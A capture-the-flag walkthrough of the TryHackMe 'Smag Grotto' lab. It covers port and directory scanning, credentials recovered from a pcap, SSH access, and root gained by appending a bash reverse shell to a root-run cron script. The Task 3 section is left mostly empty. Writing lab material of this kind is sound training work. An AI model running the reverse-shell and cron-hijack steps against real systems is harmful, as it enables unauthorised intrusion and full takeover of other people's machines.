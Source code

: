 # Smag Grotto

<div align="left">

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Smag Grotto](https://tryhackme.com/room/smaggrotto)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.137.60`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.71.2 smag.thm" >> /etc/hosts

mkdir thm/smag.thm
cd thm/smag.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 smag.thm
PING smag.thm (10.10.71.2) 56(84) bytes of data.
64 bytes from smag.thm (10.10.71.2): icmp_seq=2 ttl=63 time=97.3 ms
64 bytes from smag.thm (10.10.71.2): icmp_seq=3 ttl=63 time=68.6 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

### 2.1 - What is the secret spicy soup recipe?

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 smag.thm -oG nmap/port_scan
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-31 18:24 EDT
Initiating SYN Stealth Scan at 18:24
Scanning smag.thm (10.10.71.2) [65536 ports]
Discovered open port 80/tcp on 10.10.71.2
Discovered open port 22/tcp on 10.10.71.2
Completed SYN Stealth Scan at 18:24, 18.21s elapsed (65536 total ports)
Nmap scan report for smag.thm (10.10.71.2)
Host is up, received user-set (1.8s latency).
Scanned at 2023-07-31 18:24:20 EDT for 19s
Not shown: 59890 closed tcp ports (reset), 5644 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 22, 80.

Now, we need to search which services are running on open ports:

```bash
nmap -p22,80 -n -Pn -vvv -sCV --min-rate 5000 smag.thm -oN nmap/open_port
```

We can start to explore website (80):

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-31-11 (1).png" alt=""><figcaption></figcaption></figure>

we see that website is under development, it means that can be vulnerabilities, try to explore source code:

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-31-37.png" alt=""><figcaption></figcaption></figure>

Nothing of interesting! We can try to use gobuster to search hidden paths:

```bash
gobuster dir -u http://smag.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

```bash
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://smag.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/31 18:35:16 Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 303] [--> http://smag.thm/mail/]
Progress: 87664 / 87665 (100.00%)
===============================================================
2023/07/31 18:45:07 Finished
===============================================================
```

We find 'only' this good path: http:\\\smag.thm/mail

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-38-33.png" alt=""><figcaption><p><a href="https://http/smag.thm/mail">http:\\smag.thm/mail</a></p></figcaption></figure>

Give focus on this .pcap file (wireshark extension), how first paragraph suggests, we can download all attachments using wget command.

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-39-26.png" alt=""><figcaption></figcaption></figure>

We can open file downloaded using wireshark or command strings:

```
strings dHJhY2Uy.pcap 
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-08-01 00-49-23.png" alt=""><figcaption></figcaption></figure>

</div>

There's a fantastic info: username=helpdesk\&password=cH4nG3M3\_n0w

We can use this credentials to try ssh access:

```bash
ssh helpdesk@smag.thm
```





### Task 3 - What is the user flag? 

\


We quickly try to find user.txt flag using find command:\


```bash
```







```bash
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>



</details>

### Task 4 - What is the root flag? 



We can continue to explore files:

```bash
ls -lah *
    -rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
    
    Documents:
    total 20K
    drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
    -rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
    -rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
    
    scripts:
    total 16K
    drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
    drwx------ 5 lennie lennie 4.0K May 15 13:37 ..
    -rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
    -rw-r--r-- 1 root   root      1 May 15 13:38 startup_list.txt

cat scripts/*
cat Documents/*
cat /etc/print.sh
ls -lah /etc/print.sh
	-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

We see that planner.sh will be run as root (with a cron job), and use /etc/print.sh with lennie permission, we can modify it inserting a reverse shell as payload:

```bash
echo "/bin/bash -i >& /dev/tcp/10.9.80.228/666 0>&1" >> /etc/print.sh                                                     
```

Then, we run on our kali machine netcat on the same port (666):

```bash
nc -nvlp 666
```

and wait root that will run the planner.sh script once a minute.

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 12-37-21.png" alt=""><figcaption></figcaption></figure>

Well done! We find root flag:

```bash
ls
cat root.txt
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 12-38-55.png" alt=""><figcaption></figcaption></figure>

</div>

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
